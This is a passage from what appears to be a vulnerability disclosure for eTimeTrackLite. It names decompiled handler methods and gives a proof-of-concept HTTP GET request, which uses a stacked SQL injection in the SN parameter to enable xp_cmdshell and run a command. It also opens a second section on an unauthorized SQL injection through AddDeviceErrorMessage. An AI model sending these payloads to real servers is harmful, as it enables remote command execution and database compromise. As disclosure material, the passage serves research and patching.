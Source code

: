 getrequest.Page_Load(object, EventArgs) : void @060002EE

![image-20250516144747114](eTimeTrackLite/image-20250516144747114.png)

poc

```http
GET /getrequest.aspx?SN=111';EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';--+ HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive


```



### AddDeviceErrorMessage Unauthorized SQL Injection

devicecmd.Page_Load(object, EventArgs) : void @0600038F

If an error occurs while parsing the body content, DeviceManagement.AddDeviceErrorMessage will be called to log the error.

Errors can be caused by using Conversions.ToInteger.
